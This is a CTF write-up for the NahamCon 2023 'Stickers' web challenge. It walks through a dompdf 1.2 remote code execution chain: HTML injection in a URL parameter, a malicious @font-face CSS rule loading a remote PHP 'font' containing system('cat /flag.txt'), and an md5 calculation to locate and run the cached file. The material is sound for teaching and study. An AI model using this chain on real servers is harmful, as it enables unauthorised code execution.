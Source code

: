 ```yaml
---
title: NahamCon CTF 2023 - Stickers
date: 2023-06-20 09:00:00 +0800
categories: [NahamCon CTF 2023, Web]
tags: [web, dompdf, xss, css]
media_subpath: /assets/img/ctfs/nahamcon2023/stickers/
image:
  path: stickers.jpg
---
```


## Info

| Name                                                                       | Difficulty | Author                                       |
|----------------------------------------------------------------------------|------------|:---------------------------------------------|
| [Stickers](https://github.com/v3he/ctfs/tree/master/nahamcon2023/stickers) | Hard       | [congon4tor](https://twitter.com/congon4tor) |

> Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!
{: .prompt-info }

## Recon

The first thing we see when we open the website is a form for what appears to be a purchase of stickers for our organization, let's fill it in to continue.

![Stickers Main Page](main.png)

A report in pdf format is generated with the information we have entered. The first thing that strikes me is the URL, all the parameters have been entered there.

```
quote.php?organisation=MegaCorp&email=megacorp%40mcp.com&small=100&medium=100&large=100
```
{: .nolineno }

In addition we see that it is made with php, that is also useful information.

![First Order](order-one.png)

If we look at the information of the generated pdf from the browser itself, we can see that `dompdf 1.2` is being used for the generation.

![PDF Info](info.png)

Playing a little with the parameters, you can see that it is vulnerable to `XSS`, you can not do everything, but for example if we can modify the organization parameter from `organisation=MegaCorp` to `organisation=<strong>MegaCorp</strong>` and it is reflected in the pdf.

![XSS in the pdf](xss.png)

## Vulnerability 

After a quick search for `dompdf 1.2 exploit`, we can find several interesting results that talk about this:

- [From XSS to RCE (dompdf 0day)](https://positive.security/blog/dompdf-rce)
- [Dompdf RCE](https://exploit-notes.hdks.org/exploit/web/dompdf-rce/)
- [dompdf security alert: RCE vulnerability found in popular PHP PDF library](https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)

> Dompdf is an HTML to PDF converter for PHP. Its version ≤ 1.2.0 is vulnerable to remote code execution.
{: .prompt-info }

### How it Works

In this first [blog](https://positive.security/blog/dompdf-rce) we can see a super detailed explanation of what is going on, but in a nutshell the exploitation would be something like the following:

The vulnerability allows us to use XSS to inject a css link with a malicious source written in php, which stays in the dompdf cache and is accessible from the web, so we can locate it and execute the php code. These would be the steps to follow:

1. create a php file with the code to be injected and make it accessible remotely
2. create a css file that loads as font the previous php file, also accessible remotely
3. inject via XSS a link pointing to our css file
4. font is cached by dompdf
5. calculate md5 of the font
6. access the font from the webpage, the URL should be similar to `/dompdf/lib/fonts/<font name>_normal_<md5 hash>.php`

## Exploit

### Malicious Font

You can find the original exploit in [positive-security repository](https://github.com/positive-security/dompdf-rce/blob/main/exploit/exploit_font.php).

I have simply made a modification so that instead of showing the phpinfo, it shows the flag we are looking for. Host it in a repo so that it is accessible externally, in my case this will be the URL `https://raw.githubusercontent.com/v3he/ctfs/master/nahamcon2023/stickers/superfont.php`, and this is the content:

```php
[... Font Content ...]
<?php system("cat /flag.txt"); ?>
```

### Malicious CSS

The same but with a css file in which we specify as font url the php file we created previously.

```css
@font-face {
    font-style: 'normal';
    font-weight: 'normal';
    font-family: 'superfont';
    src: url('https://raw.githubusercontent.com/v3he/ctfs/master/nahamcon2023/stickers/superfont.php');
}
```

### Inject through XSS

Fill in the form again but put a link to the css source in the organization field.

![XSS Exploit](exploit.png)

### Calculate MD5

Get the MD5 of the php file.

```bash
$ echo -n 'https://raw.githubusercontent.com/v3he/ctfs/master/nahamcon2023/stickers/superfont.php' | md5sum
f8906bb81c22d91235d89d3073b73638
```
{: .nolineno }

### Get the Flag

If we now access `/dompdf/lib/fonts/superfont_normal_f8906bb81c22d91235d89d3073b73638.php`, we can see that the php code has indeed been executed and we have the flag.

![Flag](flag.png)

## Final Thoughts

A different challenge, very entertaining and nothing I've seen before, so overall a 9, even though I see it more as a medium challenge than a difficult one.